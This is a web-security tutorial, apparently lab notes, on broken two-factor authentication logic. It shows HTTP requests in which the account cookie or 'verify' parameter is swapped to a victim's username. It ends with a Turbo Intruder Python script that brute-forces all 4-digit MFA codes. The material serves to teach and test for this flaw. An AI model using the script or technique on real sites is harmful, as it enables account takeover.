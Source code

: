 Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.
## Example Logic
A user logs in with their credential in the first step as follows:
```http
POST /login-steps/first HTTP/1.1
Host: target-website.com
...
username=carlos&password=1234
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
```http
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=carlos
...
verification-code=qwerty
```
In this case, the attacker could login using their own credentials but then change the value of the `account` cookie to any username when submitting the verification code.
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=admin
...
verification-code=qwerty
```
This is extremely dangerous if the attacker is then able to brute force the verification code, as it would allow them to login to any user accounts based entirely on their username.
## Exploiting Flawed Logic
1. Notice that in `POST /login2` request, the `verify` parameter is used to determine which user account is being accessed.
2. Send that request to Burp Repeater, and change `POST` to `GET` and `verify` parameter to the target username. This ensures that a temporary 2FA code is generated for the target username.
3. Login with an account you can control. Then submit an invalid 2FA code.
4. Send `POST /login2` to Turbo Intruder (install via bApp).
5. In the pop-up, change the `verify` parameter to target username, add `%s` as value for the `mfa-code` parameter, then use the following code for the attack:
```python
# https://gist.github.com/bavlayan/aa7470b9692f05f29e6c8ea88e8bde85
def queueRequests(target, wordlists):
    engine = RequestEngine(
	    endpoint=target.endpoint,
        concurrentConnections=5,
        requestsPerConnection=100,
        pipeline=False,
		engine=Engine.BURP
    )

    for num in range(0, 10000):
        mfa_code = '{0:04}'.format(num)
        engine.queue(target.req, mfa_code.rstrip())


def handleResponse(req, interesting):
    if req.status == 302:
        table.add(req)
```
6. Start the attack. When finished, right click on the request and select **Show response in browser**. Copy the URL and load it in the browser.